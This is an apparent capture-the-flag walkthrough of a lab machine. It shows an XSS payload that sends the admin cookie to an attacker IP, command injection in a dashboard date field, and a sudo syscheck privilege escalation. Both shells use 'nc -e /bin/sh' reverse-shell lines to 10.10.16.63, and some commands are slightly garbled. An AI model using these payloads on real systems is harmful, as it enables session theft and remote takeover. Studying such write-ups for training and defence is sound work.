Machine IP: 10.10.11.8

## Scanning

### Nmap

```markdown
sudo nmap - sC - sV - oA head_scan 10.10.11.8
```

We have two ports; 22 and 5000. Port 22 is typically not an entry port for RCE. Technically we can enumerate port 22 when we have some credentials. So looking at port 5000

#### Port 5000



If we click on the 'for questions' button, we get the /support directory



Test if special characters (", ', \<, >) are supported then we also test with SQLi and XSS payloads. It works with xss payload: \</scrip\</script>t>\

Also notice that we get the admin cookie in the cookie header of the response. InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs



#### Directory Enumeration

```
dirsearch -u http://10.10.11.8:5000
```


We have an extra directory /dashboard.

Going to the dashboard page, we see that we are unauthorized to access it


What do we have??

- A website running on port 5000
- XSS on from the /support page with admin cookie exposed in the response
- dashboard directory we dont have access to
- Now, Get RCE via XSS using cookie

Using the concept from:[https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)

Let's capture our request on burpsuite for easy of replay and repeat. and set up listener (two)

```markdown
python3 - m http.server 80
sudo php - S 0.0.0.0: 8000
```

I tried different payloads, until this worked:

```
<script>var i=new Image(); i.src="http://10.10.16.63/?cookie="+btoa(document.cookie);</script>
```

Here we have used btoa() method for converting the cookie string into base64 encoded string




Decode cookie:

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```



Now that we have our admin cookie, we can insert it into the cookie storage with the browser and now we have access to the /dashboard page



Pass the request of the /dashboard page to burp

We can insert a payload within the date label to get shell.Using pyaload

```
nc+-e+/bin/sh+10.10.16.63+1234
```



We get our low priv shell



### Privilege Escalation

First thing I typically check is `sudo -l\`, and we have a hit this time.



We can use the syscheck command without having sudo privileges

```markdown
Syscheck is the name of the integrity checking process inside OSSEC.It runs periodically to check if any configured file has changed.
```

Checking the content of /usr/bin/syscheck, we see that it is processing an initdb.sh file. We can add our own inidb.sh file, which will be a payload.


```
echo "nc -e /bin/sh 10.10.16.63 4444" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
```

Run the payload


And we get our root shell on port 4444


